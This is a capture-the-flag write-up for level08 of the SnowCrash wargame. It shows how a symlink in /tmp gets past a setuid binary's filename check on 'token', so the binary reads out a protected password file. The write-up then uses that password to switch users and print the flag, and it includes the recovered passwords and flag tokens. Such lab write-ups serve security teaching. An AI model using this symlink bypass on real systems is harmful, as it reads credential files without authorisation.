

# level08
_The ritual_ :
- `pwd`: `/home/user/level08`
- `id`: `uid=2008(level08) gid=2008(level08) groups=2008(level08),100(users)`
- `ls -la`:
```sh
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
- `find / -user flag08 2> /dev/null`: nothing

# _BINARY_

```sh
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$
```

_Let's try with `token` as argument._

```sh
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```

_I don't have access yes... We can see only the owner of this file has the permissions to read and write on it..._

## _Let's do my second ritual_

```sh
➜  ~ scp -P 4242 level08@127.0.0.1:/home/user/level08/level08 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::7556:8938:f6af:c775 fec0::5054:ff:fe12:3456
level08@127.0.0.1's password:
level08                                                                                                                                                                   100% 8617   577.9KB/s   00:00
➜  ~
```

## _And here the treasure_



_Ahhhhhh I see... It check only if the argument has `token` in it._

_Let's try something :_
```sh
level08@SnowCrash:~$ ./level08 "token proute"
You may not access 'token proute'
level08@SnowCrash:~$
```

- I can suppose the file `token` has the password for the next level but we can't read it.

_How can I read a file without open it ?... OH! I know !_

```sh
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/proute
level08@SnowCrash:~$ ./level08 /tmp/proute
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$
```

# _THAT'S RIGHT_

- Let's login to `level08` directly :
```sh
level08@SnowCrash:~$ su level09
Password:
su: Authentication failure
level08@SnowCrash:~$
```

# _What ???_
_Maybe the password for `flag08` ?_

```sh
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$
```

_Ouf ! I had a scare._

- Let's get the flag :
```sh
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```

- And let's login to `level09` :
```sh
flag08@SnowCrash:~$ su level09
Password:
level09@SnowCrash:~$
```

# level08 complet !
